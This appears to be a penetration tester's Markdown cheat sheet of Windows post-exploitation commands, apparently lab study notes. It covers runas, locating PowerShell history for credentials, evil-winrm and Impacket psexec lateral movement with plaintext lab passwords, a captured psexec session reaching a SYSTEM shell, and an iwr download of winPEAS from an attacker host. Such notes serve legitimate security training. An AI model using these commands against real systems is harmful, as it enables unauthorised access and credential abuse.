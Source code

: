 ### To run process or application with different user 
```ps1
runas /user:backupadmin cmd
```

### To check powershell history 
```ps1
	Get-History
```
_Note [not recommended] it can get clear after typing clear_

### Better way to get powershell history 
```ps1
(Get-PSReadlineOption).HistorySavePath
```

### Saving creds as variable for ease
```ps1
$password = ConvertTo-SecureString "qwertqwertqwert123!!" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("daveadmin", $password)
```

[PS Remoting]
```ps1
Enter-PSSession -ComputerName CLIENTWK220 -Credential $cred
whoami
```

### Better way to use ps-remoting [evil-winrm]
```rb
evil-winrm -i 192.168.50.220 -u daveadmin -p "qwertqwertqwert123\!\!"
whoami
cd C:\
```

```rb
/usr/share/doc/python3-impacket/examples/psexec.py CORP/jeffadmin:"BrouhahaTungPerorateBroom2023!"@192.168.163.75
```


```rb
Mon Jan-1 5:29:33am)-(CPU 7.2%:0:Net 1)-(kali:~)-(348K:60)
> /usr/share/doc/python3-impacket/examples/psexec.py CORP/jeffadmin:"BrouhahaTungPerorateBroom2023!"@192.168.163.75
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on 192.168.163.75.....
[*] Found writable share ADMIN$
[*] Uploading file mOFABSYb.exe
[*] Opening SVCManager on 192.168.163.75.....
[*] Creating service SBhM on 192.168.163.75.....
[*] Starting service SBhM.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.22000.856]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> exit
```
### Wget alternative for windows powershell (Incase of wget not supported)
```ps1
iwr -uri http://192.168.48.3/winPEASx64.exe -Outfile winPEAS.exe
```
